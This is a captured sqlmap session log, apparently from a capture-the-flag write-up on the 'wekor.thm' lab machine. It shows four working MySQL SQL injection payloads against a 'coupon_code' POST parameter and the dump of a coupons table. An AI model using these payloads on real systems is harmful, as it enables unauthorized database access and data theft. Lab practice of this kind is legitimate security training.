 ```bash
[11:25:04] [INFO] using '/home/ehogue/.local/share/sqlmap/output/results-06272021_1125am.csv' as the CSV results file in multiple targets mode
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: coupon_code (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: coupon_code=uCZV' OR NOT 7049=7049#&apply_coupon=Apply Coupon

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: coupon_code=uCZV' AND GTID_SUBSET(CONCAT(0x7176766a71,(SELECT (ELT(9092=9092,1))),0x7171627671),9092)-- OXgy&apply_coupon=Apply Coupon

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: coupon_code=uCZV' AND (SELECT 5536 FROM (SELECT(SLEEP(5)))FMUI)-- GUMI&apply_coupon=Apply Coupon

    Type: UNION query
    Title: MySQL UNION query (NULL) - 3 columns
    Payload: coupon_code=uCZV' UNION ALL SELECT CONCAT(0x7176766a71,0x585a72484754755164615677574e484e6f4a574e41635169695252614d746d414e6a55484f4d6b68,0x7171627671),NULL,NULL#&apply_coupon=Apply Coupon
---
do you want to exploit this SQL injection? [Y/n]
[11:25:06] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.10 or 16.04 (xenial or yakkety)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.6
[11:25:06] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[11:25:06] [INFO] fetching current database
[11:25:07] [INFO] fetching tables for database: 'coupons'
[11:25:08] [INFO] fetching columns for table 'valid_coupons' in database 'coupons'
[11:25:09] [INFO] fetching entries for table 'valid_coupons' in database 'coupons'
Database: coupons
Table: valid_coupons
[1 entry]
+----+--------+---------------+
| id | coupon | expire_date   |
+----+--------+---------------+
| 1  | 12345  | doesnotexpire |
+----+--------+---------------+

[11:25:09] [INFO] table 'coupons.valid_coupons' dumped to CSV file '/home/ehogue/.local/share/sqlmap/output/wekor.thm/dump/coupons/valid_coupons.csv'
SQL injection vulnerability has already been detected against 'wekor.thm'. Do you want to skip further tests involving it? [Y/n]
[11:25:25] [INFO] skipping 'http://wekor.thm/it-next/it_cart.php?s='
[11:25:25] [INFO] skipping 'http://wekor.thm/it-next/it_cart.php'
[11:25:25] [INFO] you can find results of scanning in multiple targets mode inside the CSV file '/home/ehogue/.local/share/sqlmap/output/results-06272021_1125am.csv'

[*] ending @ 11:25:25 /2021-06-27/
```
